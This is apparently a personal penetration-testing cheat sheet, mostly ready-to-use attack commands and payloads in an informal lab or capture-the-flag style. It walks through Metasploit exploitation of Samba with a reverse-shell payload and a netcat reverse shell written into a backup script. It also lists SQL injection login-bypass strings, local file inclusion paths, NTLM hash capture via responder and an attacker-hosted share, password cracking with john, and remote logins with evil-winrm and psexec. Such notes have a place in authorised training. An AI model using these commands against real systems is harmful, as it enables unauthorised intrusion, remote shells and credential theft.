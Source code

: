 # General exploitation

## Links
exploit-db.com
rapid7.com/db/modules/exploit
https://github.com/swisskyrepo/PayloadsAllTheThings


## seraching with searchsploit

```
seearchsploit <app>
```
example
```
searchsploit samba

searchsploit mod ssl 2
```

# Exploit with Metasploit
Using samba as an example


search for a codename of exploit or however it shows up in searchsploit
```
search trans2open
```
```
use exploit/linux/samba/trans2open
or 
use 1
```
```
set RHOST 192.168.1.4
```
```
msf5 > show targets
```
```
msf5 > exploit
```
IF IT KEEPS DYING TRY A DIFFERENT TYPE OF PAYLOAD
stageless vs staged
```
msf5 > options
```
```
msf5 > set payload linux/x86/shell_reverse_tcp
```
```
msf5 > exploit
```

# Manual

download exploit if you can find it on github or google

download, compile and run


shit to try:

```
echo '#!/bin/bash
nc -e /bin/bash 10.0.2.4 7337
"
' > /backup.sh
```

# SQL Injections
SQL Injection 101, Login tricks

    admin' --
    admin' #
    admin'/*
    ' or 1=1--
    ' or 1=1#
    ' or 1=1/*
    ') or '1'='1--
    ') or ('1'='1--
    ....

    Login as different user (SM*) 
    ' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--

*Old versions of MySQL doesn't support union queries
https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#LineCommentAttacks

## getting around SQL
Show databases
```
show databses;
```
select a database
```
use <database name>
```
print tables
```
select * from <database>.<table>;
```

# Redis
geeting around Redis to print out keys
```
redis-cli - <ip or hostname> -p <port> -a <password if you know it>
```
printing all keys
```
select *
keys *
```
# LFI
always try to see if you can do any sort of lfi 
index.php?page="../../../../../../../../etc/hosts


# LFI on a windows machine
```
index.php?page="../../../../../../../../windows/system32/drivers/etc/hosts"
```

use repeater to see if you can connect back to a smb server youre running and grab the hash credentials
```
sudo responder -I tun0
```
then on the browser
```
http://<IP-or-HOST>/index.php?page=//<attaker-ip>/somefile
```
copy the `NTLMv2-SSP Hash` 
```
echo "Administrator ........0" > hash.txt
```
use john to crack the hash
```
sudo john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

# WINRM
connect using winrm
```
evil-winrm -i 10.129.56.226 -u Administrator -p password
```

# connecting to windows with credentials using psexec
```
python3 psexec.py administrator@{TARGET_IP}
```

